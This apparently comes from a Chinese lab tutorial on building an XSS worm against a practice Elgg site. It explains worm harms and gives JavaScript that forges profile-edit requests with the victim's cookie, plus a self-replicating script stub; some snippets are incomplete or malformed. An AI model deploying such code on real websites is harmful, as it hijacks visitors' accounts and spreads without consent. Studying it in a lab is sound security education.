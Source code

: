 #### xss蠕虫 cross site scripting worm 

XSS蠕虫是一种跨站脚本病毒， 通常由脚本语言Javascript写成， 它借由网站访问者传播。由于XSS蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内对巨大数量的计算机进行感染。

#### XSS蠕虫的危害 

蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施DDoS攻击等等。

#### XSS蠕虫的学习

首先我们需要理解一下Ajax框架。

切换到 /var/www/XSS/elgg 目录下，然后新建一个 `test.js` 的文件；

```
cd /var/www/XSS/elgg
sudo vim test.js
```
`test.js` 文件中的内容是下面的Ajax框架代码：

```
var Ajax=null;
// 构建http请求的头信息
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// 构建http请求内容。 内容的格式可以从浏览器插件LiveHTTPHeaders中知道长什么样
var content="name=...&company=&..."; // 这是你需要填写的内容
// 发送http POST请求。
Ajax.send(content);
```

然后我们再创建一个 `test1.js` 的文件，写一个xss蠕虫代码：

```
sudo vim test1.js
```

代码如下：

```
var on=new Ajax.PeriodicalUpdater("edit",
"http://www.xsslabelgg.com/action/profile/edit",
//定义一个新的Ajax.PeriodicalUpdater
{method:'get',onSuccess:function(transport){alert(transport.responseText);},
frequence:1000}
//请求方式为get，频率为1000
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的xss蠕虫病毒，下面这段代码让蠕虫可以自动传播：

```
<script id=worm>//定义js的id为worm
var strCode = document.getElementById("worm");
//找到元素id
alert(strCode.innerHTML);
</script>
```
